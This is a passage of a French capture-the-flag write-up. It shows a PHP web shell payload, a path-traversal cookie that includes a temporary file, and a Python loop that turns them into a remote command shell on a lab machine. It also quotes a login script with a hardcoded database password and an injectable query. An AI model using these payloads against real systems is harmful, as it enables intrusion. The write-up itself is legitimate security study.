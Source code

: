 La réponse c'est le *notes.php* qui disait stocker *note.txt* dans un "stockage temporaire".  

Et effectivement si on passe *<?php system($\_get["cmd"]); ?>* à *notes.php* et que l'on utilise ensuite la faille *intruder* pour inclure */tmp/note.txt* alors on peut bien passer des commandes.  

Encore un peu de code pour cracher une invite de commande pseudo-interactive :  

```python
import requests
import sys
import urllib

URL = "http://192.168.1.29/super_secret_login_path_muhahaha/panel.php?cmd={0}"

while True:
    cmd = raw_input("$ ").strip()
    if cmd == "exxit":
        sys.exit()
    cmd = urllib.quote(cmd)

    r = requests.get(URL.format(cmd),
            headers={"cookie": "intruder=....//....//....//....//....//....//....//....//tmp/note.txt;"},
            allow_redirects=False)
    print r.content[136:-9]
```

Dans *login.php* on trouve un identifiant correspondant à *Jack* :  

```php
<?PHP
session_start();

function login(){

        $username = mysql_escape_string($_POST["username"]);
        $password = mysql_escape_string($_POST["password"]);
        // mysql_connect("127.0.0.1", "Jack", "zgcR6mU6pX") or die ("Server Error"); I'll change this back once development is done. Got sick of typing my password.  
        mysql_connect("127.0.0.1", "www-data", "website") or die("Server Error");
        mysql_select_db("website") or die("Server Error");
        $sql = "SELECT COUNT(*) FROM users WHERE username='$username' and password='$password'";
        $res = mysql_query($sql) or die("Server Error");
        $row = mysql_fetch_row($res);
        if ($row[0]) {
                return 1;
        } else {
                return 0;
        }
}

if (login()) {
        $_SESSION["valid"] = 1;
        setcookie(time()+600);
        header('Location: index.php');
} else {
        header('Location: index.php?the_user_is_a_failure=1');
}
?>
```

